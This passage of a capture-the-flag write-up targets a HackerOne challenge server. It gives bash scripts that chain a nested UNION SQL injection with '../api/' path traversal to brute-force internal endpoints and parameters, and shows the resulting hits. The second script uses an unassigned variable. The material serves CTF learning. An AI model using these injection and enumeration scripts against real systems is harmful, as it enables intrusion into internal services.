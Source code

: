 {F1133191}

Now, what we have to do is to find a valid endpoint and in order to do that, it is a 3 step process.

1. Bruteforce with a wordlist.
2. For each word, check the response
3. And if the response if not `Expected HTTP status 200, Received: 404`, we get a hit.

So, to achieve that we had to do a bit of scripting,

```bash
#!/bin/bash
# find_endpoints.sh : Script for finding the valid endpoint
# Usage: cat wordlist.txt | xargs -I {} -n 1 -P 10 ./find_endpoints.sh {}

word=$1

url="https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=%22-1'%20UNION%20ALL%20SELECT%20%22-1'%20union%20all%20select%20NULL,NULL,'../api/${word}'--%20-%22,2,3--%20-"

# extracting image path
path=$(curl -s $url | awk -n '/<img class="img-responsive" src="/,/">/' | cut -d '"' -f4)

img_url="https://hackyholidays.h1ctf.com${path}"

if [[ $(curl -s $img_url) != "Expected HTTP status 200, Received: 404" ]]; then 
        echo "${word}:${img_url}"
fi
```

And looping this script through the [common.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt) gave us two hits,

```shell
$ cat common.txt | xargs -I {} -n 1 -P 10 ./find_endpoints.sh {}
user:https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXIiLCJhdXRoIjoiYmZiNmRkMDRlNjZlODU1NjRkZWJiYTNlN2IyMjJlMzQifQ==
ping:https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3BpbmciLCJhdXRoIjoiOTMzZTJkMzk5NWE4MmIzZmQyODE1NWQyMjg3MDk1M2YifQ==
```

`user` and `ping`(a rabbit hole -.-) , `user/` seems to be interesting, so we can continue to enumerate on that, we can make few tweaks on the previous scripts to bruteforce for parameters, if we try for some random parameter with some random value, it gives us an error - `Expected HTTP status 200, Received: 400` i.e. Invalid GET/POST request. So, we can use this error message to enumerate on the parameter (`FUZZ?=anything`)

```bash
#!/bin/bash
# find_endpoints.sh : Script for finding the valid endpoint
# Usage: cat wordlist.txt | xargs -I {} -n 1 -P 10 ./find_endpoints.sh {}

url="https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=%22-1'%20UNION%20ALL%20SELECT%20%22-1'%20union%20all%20select%20NULL,NULL,'../api/?${word}=anything'--%20-%22,2,3--%20-"

# extracting image path
path=$(curl -s $url | awk -n '/<img class="img-responsive" src="/,/">/' | cut -d '"' -f4)

img_url="https://hackyholidays.h1ctf.com${path}"

if [[ $(curl -s $img_url) != "Expected HTTP status 200, Received: 400" ]]; then 
        echo "${word}:${img_url}"
fi
```
